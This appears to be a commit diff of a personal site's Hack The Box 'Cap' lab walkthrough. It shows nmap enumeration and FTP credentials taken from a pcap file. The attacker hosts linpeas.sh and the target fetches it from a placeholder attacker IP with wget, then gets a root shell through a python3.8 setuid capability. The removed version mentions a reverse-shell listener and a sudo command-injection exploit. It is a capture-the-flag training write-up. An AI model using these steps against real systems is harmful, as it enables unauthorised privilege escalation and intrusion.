

Before and after one commit to Hx3R/CheatBook, a plain HTML site: page WriteUps/HTB/Cap.html in a window 1280 px wide. Shown: the top 1535 px of the page at 78% size. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Cap.html

```diff
--- a/WriteUps/HTB/Cap.html
+++ b/WriteUps/HTB/Cap.html
@@ -1,17 +1,17 @@
-<!DOCTYPE html>
 <html lang="en">
   <head>
-  <meta charset="UTF-8">
+    <meta charset="UTF-8" />
     <title>HTB - CAP Lab Walkthrough</title>
     <style>
       body {
         background-color: #0c0c0c;
         color: #d0d0d0;
-      font-family: 'Courier New', Courier, monospace;
+        font-family: "Courier New", Courier, monospace;
         margin: 40px;
       }
 
-    h1, h2 {
+      h1,
+      h2 {
         color: #009e66;
         text-shadow: 0 0 8px #004d33;
       }
@@ -26,7 +26,9 @@
         text-shadow: 0 0 6px #00ccff;
       }
 
-    code, pre, blockquote {
+      code,
+      pre,
+      blockquote {
         background-color: #111;
         padding: 10px;
         border-radius: 6px;
@@ -38,6 +40,10 @@
       ul {
         list-style: square;
         padding-left: 20px;
+      }
+
+      li {
+        margin-top: 15;
       }
 
       em {
@@ -62,69 +68,157 @@
         margin-top: 10px;
         font-weight: bold;
       }
+
+      .back-button {
+        position: fixed;
+        background-color: #009e66;
+        color: #fff;
+        padding: 10px 16px;
+        border-radius: 6px;
+        text-decoration: none;
+        font-weight: bold;
+        box-shadow: 0 0 10px #004d33;
+        transition: background-color 0.3s;
+        z-index: 1000;
+      }
+
+      .back-button:hover {
+        background-color: #00cc99;
+      }
+
+      .back-top {
+        top: 20px;
+        right: 20px;
+      }
+
     </style>
   </head>
   <body>
+    <h1>HTB Lab: CAP 🛡️</h1>
+    <p>
+      A full walkthrough covering <strong>Enumeration</strong>,
+      <strong>Foothold</strong>, and <strong>Privilege Escalation</strong>.
+    </p>
 
-  <h1>HTB Lab: CAP 🛡️</h1>
-  <p>A full walkthrough covering <strong>Enumeration</strong>, <strong>Foothold</strong>, and <strong>Privilege Escalation</strong>.</p>
+    <a href="https://hx3r.github.io/CheatBook/" class="back-button back-top">⬅️ Back to CheatBook</a>
 
     <div class="section">
       <h2>1️⃣ Enumeration</h2>
       <ul>
-      <li>Run <code>nmap -sC -sV -oA cap_scan 10.10.10.245</code></li>
-      <li>Discovered open ports:
-        <ul>
-          <li>TCP/80 – Apache server hosting a web interface</li>
-          <li>TCP/21 – FTP with anonymous login enabled</li>
-        </ul>
+        <li>
+          <p>Portscan</p>
+          <code>nmap 10.10.10.245 -oA cap_scan</code>
+          <p>Result</p>
+          <code>
+            Nmap scan report for 10.10.10.245 Host is up (0.68s latency).
+            <br />Not shown: 997 closed tcp ports (conn-refused) <br />PORT
+            STATE SERVICE <br />21/tcp open ftp <br />22/tcp open ssh
+            <br />80/tcp open http
+          </code>
         </li>
-      <li>Web interface at <code>http://10.10.10.245/</code> is a packet capture portal</li>
-      <li>FTP allows downloading <code>.pcap</code> files — these contain credentials!</li>
+        <li>
+          <p>21 FTP</p>
+          Anonymous login is disabled
+        </li>
+        <li>
+          <p>22 SSH</p>
+          Nothing compelling here yet.
+        </li>
+        <li>
+          <p>80 http</p>
+          Web interface at
+          <a href="http://10.10.10.245/">http://10.10.10.245/</a> is a packet
+          capture portal. <br /><br />
+          - Username: 'Nathan' <br />
+          - Multiable downloadable PCAP file under<br />
+          <a href="http://10.10.10.245/data/0">http://10.10.10.245/data/0</a>
+          [0-5 as URL parameter possible]<br />
+          accessible through Menu on the left side.
+        </li>
       </ul>
     </div>
 
     <div class="section">
       <h2>2️⃣ Foothold</h2>
       <ul>
-      <li>Analyze the downloaded <code>.pcap</code> using Wireshark or <code>tcpdump</code></li>
-      <li>Extract HTTP Basic Auth from stream:
-        <pre>GET /login.php HTTP/1.1
-Authorization: Basic YWRtaW46Y2FwY2FwY2Fw</pre>
+        <li>Analyze the downloaded PCAP file [0.pcap] using Wireshark</li>
+        <li>
+          <p>Extract FTP Basic Auth from stream:</p>
+          <code> USER nathan PASS Buck3tH4TF0RM3!</code>
         </li>
-      <li>Decode base64:
-        <pre>echo YWRtaW46Y2FwY2FwY2Fw | base64 -d</pre>
-        <ul>
-          <li><strong>Username:</strong> admin</li>
-          <li><strong>Password:</strong> capcapcap</li>
+        <li>Login via SSH 'nathan@10.10.10245'</li>
+        <li>You’re user 🧑‍💻</li>
       </ul>
-      </li>
-      <li>Login via web portal and upload a reverse shell payload</li>
-      <li>Catch shell with <code>nc -lvnp 4444</code></li>
-    </ul>
+      <div class="flag">
+        Get User Flag: <code>cat /home/nathan/user.txt</code>
+      </div>
     </div>
 
     <div class="section">
       <h2>3️⃣ Privilege Escalation</h2>
       <ul>
-      <li>Check sudo rights: <code>sudo -l</code></li>
-      <li>Allowed to run <code>/usr/bin/capctl</code> with sudo</li>
-      <li>Analyze binary with <code>strings</code>, <code>ltrace</code>, <code>gdb</code></li>
-      <li>Find command injection vulnerability</li>
-      <li>Exploit using:
-        <pre>sudo /usr/bin/capctl "&& /bin/bash"</pre>
+        <li>
+          <p>
+            Downloading linPEAS script on <strong>attack host</strong> and get
+            it on target
+          </p>
+          attacker:
+          <code>
+            wget
+            https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/linpeas.sh </code
+          ><br />
+          <code> python -m http.server </code><br />
+          target:
+          <code> wget http://[[attacker-ip]]:8000/linpeas.sh </code>
+        </li>
+        <li>
+          <p>Make it executable</p>
+          <code>chmod +x linpeas.sh</code>
+        </li>
+        <li>
+          <p>Run it</p>
+          <code>./linpeas.sh</code>
+        </li>
+        <li>
+          <p>Check results</p>
+          <code
+            >Files with capabilities (limited to 50):<br />
+            <strong>/usr/bin/python3.8</strong> =
+            cap_setuid,cap_net_bind_service+eip<br />
+            /usr/bin/ping = cap_net_raw+ep<br />
+            /usr/bin/traceroute6.iputils = cap_net_raw+ep<br />
+            /usr/bin/mtr-packet = cap_net_raw+ep<br />
+            /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper
+            = cap_net_bind_service,cap_net_admin+ep</code
+          >
+        </li>
+        <li>
+          <p>Get root shell with 'Python3.8'</p>
+          <code
+            >Python3.8<br />
+            import os<br />
+            os.setuid(0)<br />
+            os.system("/bin/bash")</code
+          >
         </li>
         <li>You’re root 🧨</li>
       </ul>
-    <div class="flag">
-      Root Flag: <code>cat /root/root.txt</code>
-    </div>
+      <div class="flag">Root Flag: <code>cat /root/root.txt</code></div>
     </div>
 
-  <hr>
+    <hr />
 
-  <p><strong>HTB Profile:</strong> <a href="https://app.hackthebox.com/users/526909268411023381" target="_blank">Hx3R</a></p>
-  <p><strong>Discord:</strong> <a href="https://discord.gg/whe72edd" target="_blank">Join my server</a></p>
-
+    <p>
+      <strong>HTB Profile:</strong>
+      <a
+        href="https://app.hackthebox.com/users/526909268411023381"
+        target="_blank"
+        >Hx3R</a
+      >
+    </p>
+    <p>
+      <strong>Discord:</strong>
+      <a href="https://discord.gg/whe72edd" target="_blank">Join my server</a>
+    </p>
   </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
